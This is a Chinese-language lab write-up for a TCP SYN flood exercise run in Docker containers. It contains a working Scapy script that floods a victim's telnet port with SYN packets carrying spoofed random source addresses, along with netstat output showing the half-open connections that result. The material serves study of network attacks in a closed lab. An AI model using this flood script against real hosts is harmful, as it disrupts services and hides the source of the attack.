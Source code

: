 ```shell
# export PS1="\w attacker-10.9.0.1$ "
```

```shell
# export PS1="\w user1-10.9.0.6$ "
```

修改 dockerfile，给 victim 加上：

```dockerfile
privileged: true
```

## Task 1.1: Launching the Attack Using Python

编写 `synflood.py`：

```python
#!/bin/env python3

from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip = IP(dst="10.9.0.5")
tcp = TCP(dport=23, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
    pkt[TCP].sport = getrandbits(16) # source port
    pkt[TCP].seq = getrandbits(32) # sequence number
    send(pkt, verbose = 0)
```

查看当前 tcp 连接：

```shell
victim-10.9.0.5$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.11:41019        0.0.0.0:*               LISTEN
```

运行程序：

```shell
attacker-10.9.0.1$ synflood.py
```

查看当前 tcp 连接：

```shell
victim-10.9.0.5$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.11:41019        0.0.0.0:*               LISTEN     
tcp        0      0 10.9.0.5:23             51.28.29.181:52204      SYN_RECV   
tcp        0      0 10.9.0.5:23             144.159.54.170:59931    SYN_RECV   
tcp        0      0 10.9.0.5:23             187.91.156.41:61074     SYN_RECV   
......
victim-10.9.0.5$ netstat -tna | grep SYN_RECV | wc -l
97
victim-10.9.0.5$ ss -n state syn-recv sport = :23 | wc -l
98
```
